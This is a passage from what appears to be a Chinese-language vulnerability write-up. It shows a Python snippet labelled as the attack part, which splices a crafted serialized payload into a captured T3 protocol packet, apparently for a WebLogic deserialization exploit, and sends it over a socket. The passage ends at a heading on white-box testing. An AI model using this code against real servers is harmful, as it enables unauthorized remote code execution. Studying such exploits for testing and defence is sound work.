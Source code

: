 ```python


data = sock.recv(1024)
print ( 'received "%s"' % data)

######################################以下是具体的攻击部分#####################################

# 传入一个文件名，在本例中为刚刚生成的
payloadObj = open("payload.bin",'rb').read()

# 读取 .pcap 文件
packets = rdpcap('t3.pcap')

# 然后可以通过索引访问单个数据包
# 这里获取第一个数据包（索引为 0）
origin_packet = packets[0]

# 如果数据包的负载是你需要的部分，你可以这样获取
payload = origin_packet[Raw].load

# 截取整个payload 的一部分，从24到155
payload_head = payload[23:155]

# 复制剩余数据包，从408到1564
payload_tail=payload[408:1564]

#重新组成payload
payload=payload_head+payloadObj+payload_tail

# 重新计算数据包大小并替换原数据包中的前四个字节
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

print('sending payload...')
sock.send(payload)
```

![image-20230725015601524](.\images\image-20230725015601524.png)





### 白盒测试方法
